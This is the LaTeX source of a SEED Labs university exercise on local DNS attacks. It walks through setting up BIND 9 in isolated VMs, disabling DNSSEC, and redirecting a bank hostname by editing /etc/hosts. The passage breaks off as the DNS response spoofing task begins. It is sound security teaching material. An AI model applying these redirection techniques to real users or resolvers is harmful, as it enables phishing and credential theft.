\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\dnsFigs}{./Figs}
\lhead{\bfseries SEED Labs -- Local DNS Attack Lab}


\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\newcommand{\bankcom}{\url{bank32.com}\xspace}
\newcommand{\wwwbank}{\url{www.bank32.com}\xspace}
\newcommand{\examplenet}{\url{example.net}\xspace}
\newcommand{\wwwexample}{\url{www.example.net}\xspace}
\newcommand{\apollo}{\texttt{Apollo}\xspace}

\begin{document}

\begin{center}
{\LARGE Local DNS Attack Lab}
\end{center}

\seedlabcopyright{2018}


% *******************************************
% SECTION
% ******************************************* 
\section{Lab Overview}

DNS (Domain Name System) is the Internet's phone book; it  
translates hostnames to IP addresses (and vice versa).
This translation is through DNS resolution, which happens behind
the scene. DNS attacks manipulate this resolution process
in various ways, with an intent to misdirect users to
alternative destinations, which are often malicious. 
The objective of this lab is to understand how such attacks work.
Students will first set up and configure a DNS server, and then they 
will try various DNS attacks on the target that is also within
the lab environment.


The difficulties of attacking local victims versus remote DNS servers are
quite different. Therefore, we have developed two labs, one focusing on
local DNS attacks, and the other on remote DNS attack. This lab focuses on
local attacks.
This lab covers the following topics:

\begin{itemize}[noitemsep]
\item DNS and how it works
\item DNS server setup
\item DNS cache poisoning attack
\item Spoofing DNS responses
\item Packet sniffing and spoofing
\item The Scapy tool
\end{itemize}


\paragraph{Readings and videos.}
Detailed coverage of the DNS protocol and attacks can be found in the following:

\begin{itemize}
\item Chapter 18 of the SEED Book, \seedbook
\item Section 7 of the SEED Lecture, \seedisvideo
\end{itemize}



\paragraph{Lab environment.} \seedenvironment



% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks (Part I): Setting Up a Local DNS Server}

The main purpose of this lab is on DNS attacks, and our attacking target is
a local DNS server.  Obviously, it
is illegal to attack a real machine, so we need to set up our own DNS
server to  conduct the attack experiments. The lab 
environment needs three separate machines:
one for the victim, one for the DNS server, and the other for the attacker.
We will run these three virtual machines on one physical machine.
All these VMs will run our pre-built \ubuntu VM image.
Figure~\ref{dns:fig:environment} illustrates the setup of the experiment environment. 
For the VM network setting, if you
are using {\tt VirtualBox}, please use {\tt "NAT Network"} as the 
network adapter for each VM.  If you are using {\tt Vmware}, the default
{\tt "NAT"} setting is good enough.


For the
sake of simplicity, we put all these VMs on the same network.
In the following sections, we assume that the user machine's IP address is {\tt 10.0.2.18}, the
DNS Server's IP is {\tt 10.0.2.16} and the attacker machine's IP is {\tt 10.0.2.17}.
We need to configure the user machine and the local DNS server; for the
attacker machine, the default setup in the VM should be sufficient.

\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\dnsFigs/environment_setup.pdf}
\caption{Environment setup for the experiment}
\label{dns:fig:environment}
\end{figure}


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Task 1: Configure the User Machine}

On the user machine {\tt 10.0.2.18}, we need to use
{\tt 10.0.2.16} as the local DNS server (by default, 
the DNS server program is already running in the SEED VM). This is achieved by changing
the resolver configuration file~(\texttt{/etc/resolv.conf}) of the user machine, 
so the server \texttt{10.0.2.16} is added as the first \texttt{nameserver} entry in the file, i.e.,
this server will be used as the primary DNS server.
Unfortunately, our provided VM uses the Dynamic Host Configuration Protocol (DHCP) to obtain
network configuration parameters, such as IP address, local DNS server, etc.
DHCP clients will overwrite the \texttt{/etc/resolv.conf} file with the information
provided by the DHCP server. 

One way to get our information into \texttt{/etc/resolv.conf} without worrying about
the DHCP is to add the following entry to the \path{/etc/resolvconf/resolv.conf.d/head}
file:

\begin{lstlisting}
Add the following entry to /etc/resolvconf/resolv.conf.d/head
  nameserver 10.0.2.16

Run the following command for the change to take effect
  $ sudo resolvconf -u
\end{lstlisting}
 
The content of the head file will be prepended to the dynamically generated resolver
configuration file. Normally, this is just a comment line (the comment in
\texttt{/etc/resolv.conf} comes from this head file).


After you finish configuring the user machine, use the \texttt{dig} command
to get an IP address from a hostname of your choice. From the response, please provide
evidences to show that the response is indeed from your server. If you cannot find the
evidence, your setup is not successful. 


% The following instruction works, but it is error prone.
\begin{comment}
To avoid this, we should tell the DHCP client not to set the
DNS server automatically. This can be achieved using the following procedure (for \ubuntu
16.04):


\begin{enumerate}
  \item Go to \texttt{"System Settings"}, and click the \texttt{"Network"} icon.
  \item Choose the \texttt{"Wired"} tab, and click the
        \texttt{"Options"} button. A dialog will pop up.

  \item Click the \texttt{ "IPv4 Settings"} tab.  In the \texttt{"Method"} entry, choose
        \texttt{"Automatic (DHCP) Addresses Only"}, and then type the IP address of the local DNS
        server in the \texttt{"DNS servers"} entry. We do not need to type anything in the
        other two fields~(See Figure~\ref{dns:fig:user_machine_setup}).

  \item Finally, click the network icon on the top right corner of the desktop, and Select
    \texttt{"Wired connection 1"}. This will refresh the wired network connection and updates the changes.
    It should be noted that \texttt{"Wired connection 1"} is the name that we choose for our
    connection (see Figure~\ref{dns:fig:user_machine_setup});  we can choose a
    different name.
\end{enumerate}


\begin{figure}[htb]
  \begin{center}
    \includegraphics[width=0.5\textwidth]{\dnsFigs/config_local_dns_server.pdf}
  \end{center}
  \caption{User machine setup}
  \label{dns:fig:user_machine_setup}
\end{figure}

\end{comment}


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: Set up a Local DNS Server}

For the local DNS server, we need to run a DNS server program.  The most
widely used DNS server software is called BIND~(Berkeley Internet Name
Domain), which, as the name suggests, was originally designed at the
University of California Berkeley in the early 1980s.  The latest version
of BIND is BIND 9, which was first released in 2000. We will show how to
configure BIND 9 for our lab environment.
The BIND 9 server program is already installed in our pre-built
\ubuntu VM image.


\paragraph{Step 1: Configure the BIND 9 server.}
BIND 9 gets its configuration from a file called \path{/etc/bind/named.conf}. This file
is the primary configuration file, and it usually contains several \texttt{"include"}
entries, i.e., the actual configurations are stored in those included files. One of the
included files is called \path{/etc/bind/named.conf.options}. This is where we typically set up
the configuration options. Let us first set up an option related to DNS cache by adding
a \texttt{dump-file} entry to the \texttt{options} block:

\begin{lstlisting}
  options {
      dump-file "/var/cache/bind/dump.db";
  };
\end{lstlisting}


The above option specifies where the cache content should be dumped to if BIND is asked to dump
its cache.  If this option is not specified, BIND dumps the cache to a default file
called \path{/var/cache/bind/named_dump.db}.
The two commands shown below are related to DNS cache.
The first command dumps the content of the cache to the file specified above, and
the second command clears the cache.
\index{DNS command!rndc dumpdb}\index{DNS command!rndc flush}

\begin{lstlisting}
   $ sudo rndc dumpdb -cache    // Dump the cache to the sepcified file
   $ sudo rndc flush            // Flush the DNS cache
\end{lstlisting}


\paragraph{Step 2: Turn off DNSSEC.}
DNSSEC is introduced to protect against spoofing attacks on DNS servers.
To show how attacks work
without this protection mechanism, we need to turn the protection off.
This is done by modifying the \path{named.conf.options} file:
comment out the {\tt dnssec-validation} entry, and
add a {\tt dnssec-enable} entry.

\begin{lstlisting}
  options {
      # dnssec-validation auto;
      dnssec-enable no;
  };
\end{lstlisting}


\paragraph{Step 3: Start DNS server.}
We can now start the DNS server using the following command. Every time
a modification is made to the DNS configuration, the DNS server needs to be
restarted. The following command will start or restart the \texttt{BIND 9}
DNS server.

\begin{lstlisting}[backgroundcolor=]
  $ sudo service bind9 restart
\end{lstlisting}


\paragraph{Step 4: Use the DNS server.}
Now, go back to your user machine, and \texttt{ping} a computer such as 
\url{www.google.com} and \url{www.facebook.com}, and describe your
observation. Please use Wireshark to show the DNS query 
triggered by your \texttt{ping} command. Please also indicate when the DNS
cache is used. 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: Host a Zone in the Local DNS Server}

Assume that we own a domain, 
we will be responsible for providing the
definitive answer regarding this domain.
We will use our local DNS server as the authoritative nameserver for
the domain. In this lab, we will set up an authoritative server
for the \texttt{example.com} domain. 
This domain name is reserved for use in documentation, and is not owned
by anybody, so it is safe to use it.

\paragraph{Step 1: Create zones.}
We need to create two zone entries
in the DNS server by adding the following contents to
\path{/etc/bind/named.conf}.
The first zone is for forward lookup (from hostname to IP),
and the second zone is for reverse lookup (from IP to hostname).
It should be noted that the \texttt{example.com}
domain name is reserved for use in documentation, and is not owned
by anybody, so it is safe to use it.


\begin{lstlisting}
zone "example.com" {
        type master;
        file "/etc/bind/example.com.db";
      };

zone "0.168.192.in-addr.arpa" {
        type master;
        file "/etc/bind/192.168.0.db";
      };
\end{lstlisting}


\paragraph{Step 2: Setup the forward lookup zone file.}
The file name after the {\tt file} keyword in the above zone definition is called
the zone file, and this is where the actual DNS resolution is stored.
In the \texttt{/etc/bind/} directory, create the following
\texttt{example.com.db}
zone file. Readers who are interested in the syntax of the zone file,
can refer to RFC 1035 for details.

\vspace{0.2in}
\begin{lstlisting}
$TTL 3D ; default expiration time of all resource records without
        ;   their own TTL
@       IN      SOA     ns.example.com. admin.example.com. (
        1               ; Serial
        8H              ; Refresh
        2H              ; Retry
        4W              ; Expire
        1D )            ; Minimum

@       IN      NS      ns.example.com.       ;Address of nameserver
@       IN      MX      10 mail.example.com.  ;Primary Mail Exchanger

www     IN      A       192.168.0.101   ;Address of www.example.com
mail    IN      A       192.168.0.102   ;Address of mail.example.com
ns      IN      A       192.168.0.10    ;Address of ns.example.com
*.example.com. IN A     192.168.0.100   ;Address for other URL in
                                        ;  the example.com domain
\end{lstlisting}


The symbol `@' is a special notation representing the origin specified
in {\tt named.conf} (the string after \texttt{"zone"}).  Therefore,
`@' here stands for \url{example.com}.
%`IN' means ``Internet''.  `SOA' is short for Start Of Authority.
This zone file contains 7 resource records (RRs), including
a SOA (Start Of Authority)\index{Start of Authority} RR, a
NS (Name Server) RR, a MX (Mail eXchanger) RR, and 4 A (host Address) RRs.


\paragraph{Step 3: Set up the reverse lookup zone file.}
To support DNS reverse lookup, i.e., from IP address to hostname, we also need to
set up the DNS reverse lookup file.\index{DNS reverse lookup}
In the \path{/etc/bind/} directory, create the following reverse DNS lookup file
called \texttt{192.168.0.db} for the \url{example.net} domain:
\begin{lstlisting}
$TTL 3D
@       IN      SOA     ns.example.com. admin.example.com. (
                1
                8H
                2H
                4W
                1D)
@       IN      NS      ns.example.com.

101     IN      PTR     www.example.com.
102     IN      PTR     mail.example.com.
10      IN      PTR     ns.example.com.
\end{lstlisting}


\paragraph{Step 4: Restart the BIND server and test.}
When all the changes are made, remember to restart the BIND server.
Now, go back to the user machine, and 
ask  the local DNS server for the IP address of
\url{www.example.com} using the \texttt{dig} command. Please 
describe and explain your observations. 






% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks (Part II): Attacks on DNS}


The main objective of DNS attacks on a user is to redirect the user
to another machine $B$ when the user tries to get to machine $A$ using
$A$'s host name. For example, when the user tries to access the online banking,
if the adversaries can redirect the user 
to a malicious web site that looks very much like the main web site 
of bank, the user might be fooled and give away password
of his/her online banking account.

When a user types in \url{http://www.example.net} 
in his/her browsers, the user's machine will issue
a DNS query to find out the IP address of this web site. Attackers' goal
is to fool the user's machine with a faked DNS reply, which resolves
the hostname to a malicious IP address. There are several ways to launch such 
a DNS attack. See Figure~\ref{dns:fig:attack_surface} for the illustration 
of the attack surface and read Chapter 15 of the SEED book for detailed 
analysis of the attack surface. 

We will launch a series DNS attacks on the \url{example.net} domain.  
It should be noted that we are using \url{example.net} as our target domain, not 
the \url{example.com}. The latter one is already hosted by our own
local DNS server in the setup, so no DNS query will be 
sent out for hostnames in that domain.



\begin{figure}[tb]
\centering

\includegraphics[width=1.0\textwidth]{\dnsFigs/attack_surfaces.pdf}
\caption{DNS Attack Surfaces}
\label{dns:fig:attack_surface}
\end{figure}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Modifying the Host File}


The host name and IP address pairs in the HOSTS file (\texttt{/etc/hosts}) 
are used for local lookup; they take the preference over 
remote DNS lookups. For example, if there is a following 
entry in the HOSTS file in the user's computer, 
the \texttt{www.example.com} will be resolved as \texttt{1.2.3.4} in 
user's computer without asking any DNS server:

\begin{verbatim}
1.2.3.4        www.example.net
\end{verbatim}

If attackers have compromised a user's machine, they can 
modify the HOSTS file to redirect the user to a malicious site
whenever the user tries to access {\tt www.example.com}. Assume that you have 
already compromised a machine, please try this technique to redirect
\wwwbank to any IP address that you choose.

It should be noted that \texttt{/etc/hosts} is ignored by the {\tt dig} command, 
but will take effect on the \texttt{ping} command and web browser etc.
Compare the results obtained before and after the attack. 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Directly Spoofing Response to User}


In this attack, the victim's machine has not been compromised, so attackers cannot
directly change the DNS query process on the victim's machine. However,
if attackers are on the same local area network as the victim, they 
can still achieve a great damage. 

\begin{figure}[htb]
\centering
